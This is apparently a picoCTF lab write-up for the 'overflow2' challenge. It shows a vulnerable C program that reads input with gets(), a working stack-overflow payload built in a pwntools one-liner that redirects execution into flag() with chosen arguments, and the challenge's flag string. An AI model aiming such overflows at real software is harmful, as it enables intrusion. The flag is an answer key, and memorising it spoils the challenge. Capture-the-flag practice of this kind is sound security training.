 # overflow2

## Problem

Now try overwriting arguments. Can you get the flag from this program? You can find
it in /problems/overflow-2_2_47d6bbdfb1ccd0d65a76e6cbe0935b0f on the shell server.

```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFSIZE 176
#define FLAGSIZE 64

void flag(unsigned int arg1, unsigned int arg2) {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("Flag File is Missing. Problem is Misconfigured, please contact an Admin if you are running this on the shell server.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  if (arg1 != 0xDEADBEEF)
    return;
  if (arg2 != 0xC0DED00D)
    return;
  printf(buf);
}

void vuln(){
  char buf[BUFSIZE];
  gets(buf);
  puts(buf);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);

  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  puts("Please enter your string: ");
  vuln();
  return 0;
}
```

## Solution

Most of the code is similar. So this time, let's focus on the `flag` function instead:

```
void flag(unsigned int arg1, unsigned int arg2) {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("Flag File is Missing. Problem is Misconfigured, please contact an Admin if you are running this on the shell server.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  if (arg1 != 0xDEADBEEF)
    return;
  if (arg2 != 0xC0DED00D)
    return;
  printf(buf);
}
```

Now things are getting spicy! Looks like we need to also through some specific function argument
values into the mix. This shouldn't be too bad... A lot of the process will be similar to the
previous exercise, so I'm going to gloss over much of the description of what we're doing until
we get to the differences. Let's start by identifying the buffer size from the source:

```
#define BUFSIZE 176
```

Next, we find our target address for the `flag` function:

```
gdb vuln

> diasm flag
```

flag func address = `0x080485e6`

Great! Let's first try to send an overflow that calls `flag` normally, but without the arguments.
Buffer size is 176, add 12 bonus characters, then the return address like so:

```
python -c "from pwn import *; print 'A'*176+'B'*12+p32(0x080485e6)" | ./vuln
```

We got our segfault but no flag, as we expected. The source shows that our arguments need to have
specific values:

- arg1: 0xDEADBEEF
- arg2: 0xC0DED00D

There is an addition DWORD value on the stack after the return address (to be honest, I'm not sure
what it does) which we will need to overwrite prior to adding our function arg values into the exploit.
We'll fill this extra data space with `PPPP` so we can identify it, then append the little endian
version of our args onto the stack:

```
python -c "from pwn import *; print 'A'*176+'B'*12+p32(0x080485e6)+'P'*4+p32(0xDEADBEEF)+p32(0xC0DED00D)" | ./vuln
```

Success!

**Flag: picoCTF{arg5_and_r3turn5ce5cf61a}**
